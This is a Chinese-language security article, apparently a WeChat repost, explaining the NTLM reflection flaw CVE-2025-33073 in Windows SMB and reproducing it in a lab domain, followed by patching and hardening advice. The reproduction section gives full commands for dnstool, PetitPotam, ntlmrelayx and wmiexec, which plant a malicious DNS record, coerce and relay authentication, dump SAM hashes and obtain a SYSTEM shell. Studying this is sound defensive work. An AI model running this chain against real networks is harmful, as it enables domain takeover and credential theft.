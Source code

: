 > **原文链接**: https://mp.weixin.qq.com/s?__biz=MzkzMzYzNzIzNQ==&mid=2247485768&idx=1&sn=32b3f9aa0b7a38b4abcc1c3956a069f0

#  【内网安全】NTLM反射提权攻击  
qgg  安全驾驶舱   2025-06-20 06:43  
  
**背景**  
  
  
  
****  
  
近期  
微软修复了编号为CVE-2025-33073的SMB提权漏洞，该漏洞是NTLM Relay攻击的变种，属于NTLM Reflection攻击。攻击者能够在仅拥有一个普通域用户权限的情况下，远程对域内未开启SMB签名的机器(域控默认开启SMB签名)发起攻击，获取目标机上的最高权限。当攻击者拿下域内一台机器权限后在内网不断进行横向扩散，就会危及到整个域内的机器。  
  
**一、漏洞成因**  
  
  
  
****  
  
**1、SMB逻辑缺陷**  
  
当SMB客户端收到如下特殊格式的DNS名称时：  

```
cifs/adcs1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA
```

  
会将其后面的字符串：  
  
1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA  
”以及服务类型“cifs/”移除，剩下字符串“adcs”作为目标主机名与如下内容进行比较，如果与下面任一字符串匹配成功，则DNS解析的目标机  
器会被认定为当前机器本身：  
  
①当前机器的FQDN，例如adcs.attack.com  
  
②当前机器的hostname，例如adcs  
  
③字符串"localhost"  
  
输入的DNS被处理后会成功匹配当前机器的主机名“adcs”，SMB客户端会将解析后的工作站名称“adcs”和域名“attack”填入NTLMSSP_NEGOTIATE消息字段，发送给SMB服务端。  
  
**2、NTLM本地认证**  
  
SMB服务端通过NTLMSSP_NEGOTIATE消息中的工作站名称Calling  workstaion name和域名Calling workstaion domain来判断是否进行本地认证。正常情况这两个字段值为空（NULL），如果存在且与当前计算机名称和域名相同，则会在NTLMSSP_CHALLENGE消息中将NTLMSSP_NEGOTIATE_LOCAL_CALL  
  
(0x00004000)字段设置为SET，并会创建服务器上下文并将其ID添加到Reserved字段中。  
  
**二、攻击复现**  
  
  
  
****  
  
**1、复现环境**  
  
**AD域控：192.168.96.10【DC$】**  
  
**ADCS：192.168.96.20 【ADCS$】**  
  
**攻击机kali：192.168.96.129**  
  
**域用户：qgg   域名：attack.com**  
  
**2、复现过程**  
  
使用nxc确认受害者机器ADCS未开启SMB签名，而域控开启了SMB签名（signing:True）：  
  
![nxc.png](https://mmbiz.qpic.cn/mmbiz_png/nk59nEwEn2NVawZE8IkMk9Y1ef6uXkgXDp7ro604xsjzhIv1w9mxvJ9wVabiadFcHYYcfoJ7BUoAPBzq9iakO8pQ/640?wx_fmt=png&from=appmsg "")  
  
使用dnstool向域控发起请求，创建恶意DNS记录使其指向攻击机IP，若要修改则将命令中的add改为modify：  

```
python dnstool.py -u'attack\qgg'-p'P@ssw0Rd'-r adcs1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA -d192.168.96.129--action add 192.168.96.10
```

  
![dnscret.png](https://mmbiz.qpic.cn/mmbiz_png/nk59nEwEn2NVawZE8IkMk9Y1ef6uXkgXprrgNQpJtQGf9GrPSic3ljI9iaLRfyPVuoet8qLEZ3NV583nw86hJQdw/640?wx_fmt=png&from=appmsg "")  
  
此时在AD目录中可以看到DNS成功创建：  
  
![dnslog.png](https://mmbiz.qpic.cn/mmbiz_png/nk59nEwEn2NVawZE8IkMk9Y1ef6uXkgX9VGZRzRDjbYnxE3fmswibkLCL32hv26tiaFdK2WaAQh1wABnHyUCcibuA/640?wx_fmt=png&from=appmsg "")  
  
在攻击机kali上使用petitpotam强制受害者机器向恶意DNS所指向的IP发起NTLM认证请求，同时在kali上开启监听：  

```
python PetitPotam.py -d attack.com -u qgg -p P@ssw0Rd adcs1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA 192.168.96.20
```

  
![petitre.png](https://mmbiz.qpic.cn/mmbiz_png/nk59nEwEn2NVawZE8IkMk9Y1ef6uXkgXXsDA4TvIKmiaibGIKJ0jFOnu0UEKZIfEC8gaMr8XIjOlGGDTXKFwqdNw/640?wx_fmt=png&from=appmsg "")  
  
在攻击机kali上使用ntlmrelayx监听受害者的NTLM认证请求，并获取受害者机器SAM文件中存储的账号hash：  

```
python ntlmrelayx.py -t192.168.96.20-smb2support-ts
```

  
![ntlmrelay.png](https://mmbiz.qpic.cn/mmbiz_png/nk59nEwEn2NVawZE8IkMk9Y1ef6uXkgX0Fa2QLa7KMfSZvLd0fRhO4JGtJ94icfNvOsjibCzvmO7iarYZL7t71G6w/640?wx_fmt=png&from=appmsg "")  
  
使用wmiexec获取机器权限：  

```
python wmiexec.py -hashes  administrator@192.168.96.20-codec936
```

  
![wmi.png](https://mmbiz.qpic.cn/mmbiz_png/nk59nEwEn2NVawZE8IkMk9Y1ef6uXkgX2XAuPxgWbf0sw1PJib7xibV0bzNo5Q6bicTmaNITv1GrjVNdPzWbfAyQw/640?wx_fmt=png&from=appmsg "")  
  
  
**三、攻击分析**  
  
  
  
****  
  
攻击者使用域账号通过petitpotam向受害机器发起SMB认证建立连接，将恶意构造的DNS发送给受害机器ADCS并让其强制向DNS解析的IP地址发起NTLM认证。受害机器向域控发起DNS请求，获取到DNS条目对应的IP地址为攻击者kali的IP：![dnsask.png](https://mmbiz.qpic.cn/mmbiz_png/nk59nEwEn2NVawZE8IkMk9Y1ef6uXkgXYQhGe1kQl5579DzNPh8QMJFZ6ias50VNNcJQKpYWTib2hKnDewicCJq9g/640?wx_fmt=png&from=appmsg "")  
  
  
受害机器将恶意DNS经过上述SMB解析逻辑提取到工作站名，并将域名“ATTACK”和工作站名称“ADCS”分别填入“Calling workstation domain”和“Calling workstation name”两个字段，并放入NTLMSSP_NEGOTIATE包中发往kali攻击机：![padding.png](https://mmbiz.qpic.cn/mmbiz_png/nk59nEwEn2NVawZE8IkMk9Y1ef6uXkgXnjibRXxLdiaJCeI2etHdsLgBBzDnJlxxibRW4P9swrtwAqtPMZDHwT45A/640?wx_fmt=png&from=appmsg "")  
  
  
kali  
攻击  
机将来自受害机器的NTLMSSP_NEGOTIATE请求包中继回受害机器，请求包中“domain”和“name”成功匹配当前机器的主机名和域名，于是当前请求被判定为本地调用，从而进入NTLM本地认证流程。此时会在NTLMSSP_CHALLENGE消息中将NTLMSSP_NEGOTIATE_LOCAL_CALL(0x00004000)字段设置为SET，并创建服务器上下文，添加到全局上下文列表中，并将上下文ID放入Reserved字段发送给kali攻击机：  
![local.png](https://mmbiz.qpic.cn/mmbiz_png/nk59nEwEn2NVawZE8IkMk9Y1ef6uXkgXWAMR57g8yNtGMTODysIHLNKW0p8aJYlgl6h5icqGHwm1Mb2JNIFfbUg/640?wx_fmt=png&from=appmsg "")  
  
  
kali攻击机再  
将NTLMSSP_CHALLENGE消息中继回受害机器，受害机器通过0x00004000标志发现要走本地认证流程，于是将自己的身份令牌token通过Reserved字段的ID放入服务上下文中。SMB客户端和服务端为同一台机器，  
lsass.exe进程以SYSTEM权限向攻击机发起认证请求。此时不需要计算NTLM响应，NTLMSSP_AUTH直接返回空值：  
![empty.png](https://mmbiz.qpic.cn/mmbiz_png/nk59nEwEn2NVawZE8IkMk9Y1ef6uXkgXZXUZn2CTLgaiap4eU3OpHrakhnzTUSxgI12cgZrZDGjbMEqDUSMyh9w/640?wx_fmt=png&from=appmsg "")  
  
  
然后进行远程注册表操作，导出SAM数据库：![reg.png](https://mmbiz.qpic.cn/mmbiz_png/nk59nEwEn2NVawZE8IkMk9Y1ef6uXkgXE8dSUmxquzsiaFTgOdRVwwblzq5NacDNGiaXACqicf46bDIdByt63N64g/640?wx_fmt=png&from=appmsg "")  
  
  
最后建立admin$共享将账户hash回传：  
  
![admin$.png](https://mmbiz.qpic.cn/mmbiz_png/nk59nEwEn2NVawZE8IkMk9Y1ef6uXkgXzpxdiazteJxZn5nu10sK319jYibdHb2jbV7a160tBmoicwlmrlQoRJnlA/640?wx_fmt=png&from=appmsg "")  
  
  
**四、修复建议**  
  
  
  
****  
  
**1、及时更新安装补丁**  
  
直接通过Windows自动更新，或根据微软官方渠道安装补丁。  
  
**2、启用SMB签名**  
  
通过组策略批量启用SMB签名防护。  
  
**3、强化权限管理**  
  
禁止普通域用户创建DNS记录。  
  
**4、加强监测审计**  
  
实时监测并审计恶意DNS记录创建行为。  
  
**END**  
  
  
  
  
  
